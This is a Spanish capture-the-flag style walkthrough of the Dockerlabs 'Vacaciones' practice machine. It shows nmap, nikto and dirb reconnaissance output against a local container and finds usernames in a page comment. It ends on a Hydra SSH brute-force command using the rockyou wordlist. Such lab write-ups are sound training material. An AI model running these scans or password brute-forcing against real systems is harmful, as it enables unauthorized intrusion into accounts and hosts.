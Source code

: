 # Maquina-Vacaciones

## Resolución de la Maquina Vacaciones de Dockerlabs.es "El pinguino de Mario"

## Paso N°1: Busqueda con nmap.

```bash
nmap -sV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-23 08:31 -03
Nmap scan report for 172.17.0.2
Host is up (0.000093s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.18 seconds
```
_Adjunto imagen:_

![01](https://github.com/EzeTauil/Maquina-Vacaciones/assets/118028611/981f38e1-a867-425c-a015-96e8f0f3a69d)

#################################################################################################

## Paso N°2: Busqueda con Nikto.

```bash
nikto -h http://172.17.0.2             
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          172.17.0.2
+ Target Hostname:    172.17.0.2
+ Target Port:        80
+ Start Time:         2024-06-23 08:44:45 (GMT-3)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Server may leak inodes via ETags, header found with file /, inode: 4a, size: 616e75cb6bc40, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ OPTIONS: Allowed HTTP Methods: POST, OPTIONS, HEAD, GET .
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ 8102 requests: 0 error(s) and 6 item(s) reported on remote host
+ End Time:           2024-06-23 08:45:16 (GMT-3) (31 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
_Adjunto imagen:_ 

![02](https://github.com/EzeTauil/Maquina-Vacaciones/assets/118028611/5b6f778c-e799-4bd3-a45c-c99822d1e4f4)


#################################################################################################

## Paso N°3: Busqueda con dirb.

```bash
dirb http://172.17.0.2 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Jun 23 08:48:23 2024
URL_BASE: http://172.17.0.2/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt
-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://172.17.0.2/ ----
+ http://172.17.0.2/index.html (CODE:200|SIZE:74)
==> DIRECTORY: http://172.17.0.2/javascript/                                                           
+ http://172.17.0.2/server-status (CODE:403|SIZE:275)
                                         
---- Entering directory: http://172.17.0.2/javascript/ ----
==> DIRECTORY: http://172.17.0.2/javascript/jquery/                                                    
                                                                                                       
---- Entering directory: http://172.17.0.2/javascript/jquery/ ----
+ http://172.17.0.2/javascript/jquery/jquery (CODE:200|SIZE:268026)                                                                                                   
-----------------
END_TIME: Sun Jun 23 08:48:25 2024
DOWNLOADED: 13836 - FOUND: 3
```
_Adjunto imagen:_ 

![03](https://github.com/EzeTauil/Maquina-Vacaciones/assets/118028611/0adff950-b91c-4554-836f-d9313aefe3c6)

## _Aca podemos ver 3 directorios, dos de ellos nos envia  a paginas que no funcionan y una la "index.html" que no muestra nada pero si le damos a inspeccionar vemos un mensaje que dice: "De: Juan Para: Camilo, te he dejado un correo es importante"_
_Adjunto imagen:_ 

![05](https://github.com/EzeTauil/Maquina-Vacaciones/assets/118028611/6ea184f0-a4cc-41b8-b071-366cac35a497)
#################################################################################################
![06](https://github.com/EzeTauil/Maquina-Vacaciones/assets/118028611/0c4c2b80-f609-4d4d-a030-a40b482cd97b)
#################################################################################################
![07](https://github.com/EzeTauil/Maquina-Vacaciones/assets/118028611/e3b537f8-0bd7-460b-a5f2-4df80340db54)

_como sabemos que tiene el "puerto 22" abierto que es el de ssh vamos a probar con el nombre de camilo y si no funciona probamos con el de juan._

## Paso N°4: Ataque de Fuerza Bruta con Hydra.

_Asi que ahora procedemos a usar hydra de la siguiente manera:

```bash
hydra  -l camilo -P /usr/share/wordlists/rockyou.txt -t4 -vV 172.17.0.2 ssh
```



















